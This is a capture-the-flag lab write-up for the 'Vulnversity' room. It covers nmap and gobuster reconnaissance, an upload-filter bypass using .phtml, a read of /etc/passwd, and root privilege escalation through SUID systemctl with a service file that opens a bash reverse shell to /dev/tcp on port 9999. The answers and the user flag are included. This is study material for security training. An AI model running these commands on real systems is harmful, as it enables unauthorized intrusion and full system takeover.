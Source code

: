 # Vulnversity

```
export IP=10.10.2.137
```

# Task 1 - Deploy Machine

1. No Answer Needed

# Task 2 - Reconnaissance

1. Scan the box, how many ports are open?

```
nmap -sV $IP
```
*ANS = 6*

2. What version of the squid proxy is running on the machine?

*ANS = 3.5.12*

3. How many ports will nmap scan if the flag -p-400 was used?

*ANS = 400*

4. Using the nmap flag -n what will it not resolve?

*ANS = DNS*

5. What is the most likely operating system this machine is running?

*ANS = ubuntu*

6. What port is the web server running on?

*ANS = 3333*

# Task 3 - Locating Directories Using GoBuster


1. What is the directory that has an upload form page?

```
gobuster -u http://$IP:3333 -w /usr/share/wordlists/dirbuster.txt
```
*ANS = /internal*

# Task 4 - Compromise The Webserver

1. Try upload a few file types to the server, what common extension seems to be blocked?

*ANS = .php*

2. Run this attack, what extension is allowed?

*ANS = .phtml*

3. What is the name of the user who manages the webserver?

```
cat /etc/passwd
```
*ANS = bill*

4. What is the user flag?

```
ls
cd home
cd bill
cat user.txt
```
*ANS = 8bd7992fbe8a6ad22a63361004cfcedb*

# Task 5 - Privilege Escalation

1. On the system, search for all SUID files. What file stands out?
*Search for all SUID files, ignore any "Permission Denied"*
```
find * -perm /4000 -print 2>/dev/null
```

2. Become root and get the last flag (/root/root.txt)
*Find a writable directory*
```
find -type d -maxdepth 2 -writable
```
*Create a new service file*
```
touch root.service
```
*Echo payload to root.service file (change $IP to IP of webserver)*
```
echo "[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/$IP/9999 0>&1'

[Install]
WantedBy=multi-user.target" > root.service
```
*Open a new terminal window and connect to webserver using phtml exploit, listen on port 9999*
```
nc -lvnp 9999
```
*Enable the service*
```
/bin/systemctl enable /var/tmp/root.service
```
*Start the service*
```
/bin/systemctl start root
```
*Second terminal is now logged in as root*